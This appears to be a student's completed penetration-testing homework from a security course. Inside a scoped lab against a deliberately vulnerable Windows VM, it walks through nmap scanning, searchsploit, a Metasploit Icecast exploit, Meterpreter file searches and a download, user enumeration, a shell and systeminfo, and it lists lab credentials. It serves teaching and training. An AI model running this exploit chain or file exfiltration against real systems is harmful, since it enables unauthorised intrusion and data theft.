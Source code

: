 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `secretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Resources/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 ![Nmapcommand](images/Nmap.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer: searchsploit command in Kali
     ![searchsploit](images/searchsploit.PNG)
     2.
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole
     ![msfconsole](images/msfconsole.PNG)

4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast
     ![msfconsole-search](images/msfconsole-search.PNG)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
     ![use](images/use.PNG)


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOSTS 192.168.0.20
 ![set-rhosts](images/set-rhosts.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
 ![run](images/run.PNG)
   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer: `search -f *secretfile*.txt`
  ![secretfile location](images/secret-filepath.PNG)
 7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
  ![recipe filepath](images/recipe-filepath.PNG)

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download
   ![download](images/download.png)

![downloaded file on kali](images/kali-ls.PNG)
8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
![suggester](images/suggester.PNG)

#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_all_logged_on_users
 ![Enumerate all logged in users](images/enumerate-loggedusers.PNG)

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell
  ![shell](images/shell.PNG)

C. Run the command that displays the target's computer system information:

   > Answer: systeminfo
![systeminfo](images/systeminfo.PNG)


---
